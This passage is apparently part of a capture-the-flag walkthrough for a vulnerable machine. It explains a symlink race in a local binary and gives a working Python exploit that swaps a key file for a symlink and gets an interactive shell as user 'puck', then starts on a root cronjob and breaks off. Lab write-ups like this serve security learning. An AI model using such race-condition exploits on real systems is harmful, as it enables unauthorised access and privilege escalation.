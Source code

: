 ```
*The secret to making anything taste good is salt, pepper, and sriracha.*

Wise words.


#6. Becoming puck

There is a key in /mnt/usb, after some more enumeration we find a service running on localhost:7075, and a binary in /usr/local/bin. After analysis of the binary we discover it is vulnerable to a race condition. It first checks if /mnt/usb/key.txt is not a symlink and then after a short delay compares it to /home/puck/key.txt
we can exploit this delay by quickly replacing /mnt/usb/key.txt with a symlink to /home/puck/key.txt

The following python script does just that:

>```python
>#!/usr/bin/python
>import os
>import socket
>import telnetlib
>
># make key.txt a normal file
>os.mknod("/mnt/usb/key.txt")
>
># target
>host = "localhost"
>port = 7075
>s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
># lets race
>s.connect((host, port))
>os.remove("/mnt/usb/key.txt")
>os.symlink("/home/puck/key.txt", "/mnt/usb/key.txt")
>
># should have shell (not always but often) 
>t = telnetlib.Telnet()
>t.sock = s
>t.interact()
>
>#cleanup
>s.close()
>os.remove("/mnt/usb/key.txt")
>```

Saving this script as /mnt/usb/puck.py

>```bash
>cd /mnt/usb
>./puck.py
>Authentication successful
>id
>uid=1001(puck) gid=1004(dev) groups=1001(puck)
>```

# 7. Getting root

There is a cronjob running every minute:

>```bash
>cat /etc/cron.d/*
>* * * * * root cd /opt/.messenger; for i in *.msg; do /usr/local/bin/msg_admin 1 $i; rm -f $i; done
```